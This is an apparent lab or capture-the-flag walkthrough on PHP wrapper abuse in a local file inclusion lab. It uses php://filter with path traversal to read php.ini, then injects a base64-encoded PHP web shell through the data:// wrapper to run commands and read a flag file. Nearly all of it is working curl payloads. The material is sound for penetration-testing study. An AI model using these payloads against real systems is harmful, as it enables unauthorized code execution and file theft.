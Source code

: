 # PHP Wrappers

#### Try to gain RCE using one of the PHP wrappers and read the flag at /

**Step 1** - Check if **allow\_url\_include** is on:

* Capture the **php.ini** file:
  * {% code overflow="wrap" %}
    ```bash
    curl "http://SERVER_IP:SERVER_PORT/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
    ```
    {% endcode %}
* Copy the base64 string (W1BIUF0KCjs7Ozs7Ozs7O ...SNIP ... 4dGVuc2lvbj1leHBlY3QK) to a file
* Look for the allow\_url\_file with the command `cat curl.txt | base64 -d | grep allow_url_include`

<figure><img src="../../../.gitbook/assets/image (271).png" alt=""><figcaption></figcaption></figure>

**Step 2** - Remote Code Execution:

* Base64 encode a PHP web shell:
  * {% code overflow="wrap" %}
    ```bash
    echo '<?php system($_GET["cmd"]); ?>' | base64

    PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
    ```
    {% endcode %}
* Test the web shell:
  * {% code overflow="wrap" %}
    ```bash
    curl -s 'http://SERVER_IP:SERVER_PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (272).png" alt=""><figcaption></figcaption></figure>

* Look for the flag on the / directory:
  * {% code overflow="wrap" %}
    ```bash
    curl -s 'http://SERVER_IP:SERVER_PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=ls%20../../../../'
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

* Retrieve the flag:
  * {% code overflow="wrap" %}
    ```bash
    curl -s 'http://SERVER_IP:SERVER_PORT/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20../../../37809e2f8952f06139011994726d9ef1.txt'
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

And we got the flag!
